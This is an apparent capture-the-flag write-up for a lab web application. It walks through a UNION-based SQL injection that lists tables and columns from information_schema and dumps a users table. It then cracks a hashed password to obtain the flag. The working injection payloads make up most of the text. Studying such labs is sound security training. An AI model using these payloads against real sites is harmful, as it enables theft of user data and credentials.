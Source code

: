 First flag!


Step 1.) Where to find
http://192.168.1.100/index.php?page=member



Step 2.) Enter 1 or 1 = 1 inside search bar to test for basic sql injection

Step 3.)  Try to get the name of the table 
--> Insert the following into the search bar to see the name of the table
''
1=1  UNION SELECT  table_name, 1 FROM information_schema.tables where table_schema = database() 
''
after running that you find that the table name is 'users'



Step 4: Get column names 
''
1=1  UNION SELECT  column_name, 1 FROM information_schema.columns where table_schema = database() 
''

Step 5.) Getting the users on the site based on the information we have just gotten
''  
    1=1 UNION SELECT null, concat (user_id,first_name,last_name,town,country ,planet,commentaire,countersign) from users 
''


Then we get the following in our results

ID: 1=1 union select null, concat (user_id, first_name, last_name, town, country, planet, commentaire, countersign) from users 
First name: 
Surname : 5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28


Step 6.) So from the surname property we see to decode the password using MD5 then lowercasing the password 

MD5 decrpyt result = FortyTwo
lowercased = fortytwo

After running sha 256 calculator on the lowercased result = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

Well done we found the first flag!

